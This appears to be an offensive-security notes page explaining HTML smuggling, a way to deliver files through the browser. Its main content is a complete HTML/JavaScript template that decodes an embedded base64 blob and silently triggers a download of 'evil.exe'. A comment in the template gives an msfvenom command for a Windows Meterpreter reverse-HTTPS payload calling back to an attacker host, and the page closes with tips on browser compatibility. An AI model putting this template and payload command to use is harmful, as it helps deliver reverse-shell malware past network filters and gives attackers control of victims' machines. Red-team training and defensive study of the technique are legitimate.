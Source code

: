 # HTML Smuggling

* [https://github.com/nccgroup/demiguise](https://github.com/nccgroup/demiguise)

How-to:

1. Base64 code is placed into an array buffer, byte-by-byte.
2. The array buffer is placed into the binary blob.
3. A hidden `a` tag is created.
4. The data from the binary blob is moved to the href reference of the `a` tag.
5. The code from the binary blob is given the file name of `evil.exe`.
6. Finally, a click action is performed to download the file.

{% code title="smuggling.html" %}
```html
<html>
   <body>
      <script>
         function base64ToArrayBuffer(base64) {
             var binary_string = window.atob(base64);
             var len = binary_string.length;
             var bytes = new Uint8Array( len );
             for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
             return bytes.buffer;
         }
		 <!--
		 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f exe -o evil.exe
		 base64 -w0 evil.exe | xclip -i -sel clipboard
		 -->
         var file ='<METERPRETER_BASE64_CONTENTS>'
         var data = base64ToArrayBuffer(file);
         var blob = new Blob([data], {type: 'octet/stream'});
         var fileName = 'evil.exe';
         var a = document.createElement('a');
         document.body.appendChild(a);
         a.style = 'display: none';
         var url = window.URL.createObjectURL(blob);
         a.href = url;
         a.download = fileName;
         a.click();
         window.URL.revokeObjectURL(url);
      </script>
   </body>
</html>
```
{% endcode %}

{% hint style="warning" %}
This page will work when browsed with Google Chrome (since it supports `window.URL.createObjectURL`). This technique must be modified to work against browsers like IE or Microsoft Edge.
{% endhint %}
